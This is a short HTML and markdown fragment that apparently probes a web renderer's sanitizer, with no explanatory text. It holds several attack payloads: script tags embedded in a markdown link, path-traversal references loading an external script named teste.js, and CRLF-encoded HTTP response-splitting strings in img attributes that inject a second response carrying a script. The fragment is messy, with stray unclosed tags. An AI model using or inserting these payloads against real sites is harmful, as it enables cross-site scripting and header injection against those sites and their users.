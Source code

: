 [s](../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js)(<script>Google</script>)

<img src="../../../../\%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2025%0d%0a%0d%0a%3Cscript%3Econsole.log(122232523452345)%3C/script%3E">XXX</a>

<img id="meu" src="" tabindex=%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2025%0d%0a%0d%0a%3Cscript%3Econsole.log(122232523452345)%3C/script%3E></div>

<input type="text">
<button>asdf</button>
<script src="../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js"><script>
<img src="../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js">

